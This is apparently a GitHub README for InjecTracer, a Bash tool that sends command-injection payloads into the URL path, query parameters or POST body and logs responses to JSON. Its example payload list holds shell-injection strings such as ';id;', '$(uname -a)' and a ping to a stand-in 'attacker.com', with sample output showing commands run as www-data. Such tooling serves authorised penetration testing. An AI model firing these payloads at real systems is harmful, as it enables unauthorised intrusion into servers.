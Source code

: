 
# InjecTracer

**InjecTracer** is a lightweight Bash-based injection payload tracer for testing command injection and other vulnerabilities via GET and POST HTTP methods. It supports dynamic payload injection via path, parameters, or POST body, and saves the results in structured JSON format.

---

## 🚀 Features

- Accepts inputs via `input.json`
- Supports GET and POST methods
- Injects payloads in:
  - Path (URL with `INJECT_HERE`)
  - Query parameters
  - POST body (form-style)
- Adds headers from input
- Uses `curl` for HTTP requests
- Extracts output from `<pre>` tags or raw body
- Outputs results to `results.json`

---

## 📂 File Structure

```
InjecTracer/
├── InjecTracer.sh       # Main script
├── input.json           # Input configuration
├── payloads.txt         # List of payloads to inject
└── results.json         # Output results in JSON
```

---

## 📥 Example: input.json

```json
{
  "method": "POST",
  "url": "http://example.com/submit",
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "InjecTracerBot/1.0"
  },
  "body": {
    "email": "test@INJECT_HERE.com",
    "name": "user"
  }
}
```

### For GET request with path injection:

```json
{
  "method": "GET",
  "url": "http://example.com/INJECT_HERE",
  "headers": {
    "User-Agent": "InjecTracerBot/1.0"
  }
}
```

---

## 🧨 Example: payloads.txt

```
;id;
|whoami|
$(uname -a)
`ls`
& ping -c 1 attacker.com &
```

---

## 📤 Example: results.json

```json
[
  {
    "payload": ";id;",
    "url": "http://example.com/submit",
    "location": "body",
    "output": "uid=33(www-data) gid=33(www-data) groups=33(www-data)"
  },
  {
    "payload": "|whoami|",
    "url": "http://example.com/submit",
    "location": "body",
    "output": "www-data"
  }
]
```

---

## ✅ Usage

1. **Place your payloads in** `payloads.txt`
2. **Edit** `input.json` to match the request details
3. **Run the script:**

```bash
chmod +x InjecTracer.sh
./InjecTracer.sh
```

4. **Check the output:**

```bash
cat results.json | jq
```

---

## 🛠 Dependencies

- `jq`
- `curl`
- `sed`, `perl` (for response parsing)

Install on Debian-based system:

```bash
sudo apt update
sudo apt install jq curl
```

---

## 🧑‍💻 Author

**Amal P.**  
Cybersecurity Researcher  
🔍 Focus: Injection Testing, Automation Tools, DNS-Based Detection  

---

## 📄 License

MIT License – Free to use and modify.

---

## 📣 Notes

- Ensure the target accepts requests and returns meaningful output in `<pre>` or readable format.
- Tool does **not** follow redirects automatically; modify `curl` flags if needed.
